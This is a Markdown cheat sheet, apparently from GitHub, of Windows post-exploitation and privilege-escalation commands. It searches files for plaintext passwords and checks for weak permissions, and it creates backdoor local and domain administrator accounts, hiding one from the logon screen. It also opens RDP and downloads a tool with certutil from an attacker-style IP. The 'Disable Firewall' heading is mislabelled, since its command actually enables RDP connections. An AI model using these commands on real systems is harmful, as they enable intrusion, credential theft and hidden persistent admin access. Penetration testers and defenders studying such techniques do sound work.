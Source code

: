 ## users and groups
```
whoami /all
net users
net localgroup
net user <username>
net localgroup administrators
```
## network status
```
netstat -anoy
route print
arp -A
```
## firewall
```
netsh advfirewall firewall show rule name=all
netsh advfirewall firewall show rule name=inbound
netsh advfirewall firewall show rule name=outbounD
netsh firewall show state
netsh firewall show config
```
## scheduled tasks
```
schtasks /query /fo LIST /v > schtasks.txt
```
## find passwords
```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
dir /s pass == cred == vnc == .config
findstr /spin "password" .
```
## windows shares
```
NET SHARE
NET USE
--> CREATE A SHARE ON WINDOWS FROM THE COMMAND LINE:
NET SHARE <sharename>=<drive/folderpath> /remark: "This is my share."
--> MOUNT A WINDOWS SHARE FROM THE COMMAND LINE:
NET USE Z: [\\COMPUTER_NAME\SHARE_NAME](file://COMPUTER_NAME/SHARE_NAME) /PERSISTENT:YES
--> UNMOUNT SHARE:
NET USE Z: /DELETE
--> DELETE A SHARE ENTIRLE
NET SHARE /DELETE
```
## Find weak file permissions
```
accesschk.exe -uwqs Users c:*.*
```

A part of group "Authenticated Users" - you would be surprised if you have a real user.

```
accesschk.exe -uwqs "Authenticated Users" c:*.*
```
## Add Administrator Account
```
cmd.exe /c net user c1dn3y superPassword /add
cmd.exe /c net localgroup administrators c1dn3y /add
cmd.exe /c net localgroup "Remote Desktop Users" c1dn3y /add
```
## Add a Windows Domain Administrator
```
cmd.exe /c net user hacker superPassword /add
net localgroup Administrators hacker /ADD /DOMAIN
net localgroup "Remote Desktop Users" hacker /ADD /DOMAIN
net group "Domain Admins" hacker /ADD /DOMAIN
net group "Enterprise Admins" hacker /ADD /DOMAIN
net group "Schema Admins" hacker /ADD /DOMAIN
net group "Group Policy Creator Owners" hacker /ADD /DOMAIN
```
## Access Check enumeration
```
accesschk.exe /accepteula (always do this first!!!!!)
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
accesschk.exe -ucqv [service_name]
#Find ALL weak folder permissions, per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwqs Users c:*.*
accesschk.exe -uwqs "Authenticated Users" c:*.*
```
## Code Compilation
```
apt-get install mingw-w64

Cross-Compilation Reference:
Ci686-w64-mingw32-gcc hello.c -o hello32.exe
32-bitx86_64-w64-mingw32-gcc hello.c -o hello64.exe
64-bit # C++i686-w64-mingw32-g++ hello.cc -o hello32.exe
32-bitx86_64-w64-mingw32-g++ hello.cc -o hello64.exe # 64-bit
```

## hotfixes
```
wmic qfe list
```

## file transfer
```
certutil -urlcache -f -split http://10.10.14.63:4321/SharpUp.exe sharpup.exe
```

## Enable RDP 

```
net user /add hacker Password123!! 
net localgroup administrators hacker /add
net localgroup "Remote Desktop Users" hacker /add 
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes 
```

```
reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v hacker /t REG_DWORD /d 0
```

## Disable Firewall

```
Set-ItemProperty -Path 'HKLM:\\System\\CurrentControlSet\\Control\\Terminal Server' -name "fDenyTSConnections" -value 0
```

